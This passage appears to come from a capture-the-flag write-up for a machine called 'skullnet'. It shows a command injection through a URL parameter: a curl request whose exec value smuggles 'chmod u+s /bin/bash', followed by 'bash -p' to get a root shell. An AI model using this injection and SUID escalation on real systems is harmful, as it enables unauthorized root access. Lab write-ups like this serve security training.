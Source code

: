 ![](/assets/images/skullnet/curl5.png)

Awesome!, we successfully exploited the command injection vulnerability, now let's gain a privileged shell by granting skulloperator SUID privileges over the bash binary.

Remember to URL encode your payload, as we are making web requests:

1. `curl -H "Authorization: Basic we_are_bones_513546516486484" http://127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash`

2. `ls -l /bin/bash`

3. `/bin/bash -p`

![](/assets/images/skullnet/priv.png)

Don't forget to check the root.txt flag ;).

**Slayer 07/22/2024**